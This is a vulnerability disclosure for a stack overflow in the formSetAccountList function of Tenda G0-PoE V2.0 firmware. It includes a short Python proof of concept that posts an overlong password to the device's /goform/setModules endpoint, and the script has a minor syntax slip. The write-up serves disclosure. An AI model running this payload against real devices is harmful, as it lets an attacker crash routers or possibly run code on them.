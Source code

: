 # Tenda G0-PoE V2.0 formSetAccountList
### Overview
vendor: Tenda

product: G0-PoE V2.0

version: V16.01.11.6(3657)

type: Stack Overflow
### Vulnerability Description
Tenda G0-PoE V2.0 V16.01.11.6(3657) were discovered to contain a stack overflow in the formSetAccountList function. Devices allows remote attackers to cause a denial of service via a crafted parameter for the http post request.
### Vulnerability details
In function formSetAccountList line 32、38, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v18`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0poe-2-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```

